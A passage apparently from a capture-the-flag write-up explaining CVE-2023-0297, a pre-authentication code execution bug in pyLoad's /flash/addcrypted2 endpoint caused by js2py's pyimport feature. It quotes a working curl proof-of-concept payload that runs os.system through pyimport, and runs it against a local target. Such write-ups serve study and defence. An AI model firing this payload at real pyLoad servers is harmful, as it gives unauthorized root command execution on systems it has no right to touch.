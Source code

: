 ![](/img/image-20230524133112062.png)

[This
gist](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)
does a really nice job describing the bug. The `/flash/addcrypted2`
endpoint passes user input directly into a function named `eval_js`,
which passes that into `js2py.eval_js`, a function form the `js2py`
library. This library is designed to run JavaScript in this Python
context.

`js2py` has a feature that's on by default known as `pyimport`. It
allows importing Python libraries to run alongside the JavaScript it's
executing. So if it's not disabled, I can use `pyimport` to get Python
code, and run that in an unsafe way. The patch above disables `pyimport`
for pyLoad.

#### POC

There's a POC in the gist above using `curl`:



    curl -i -s -k -X $'POST' \
        --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
        $'http://<target>/flash/addcrypted2'



I'll clean that up a bit and run it:



    oxdf@hacky$ curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2



The `touch` command worked, as that file now exists, owned by root:


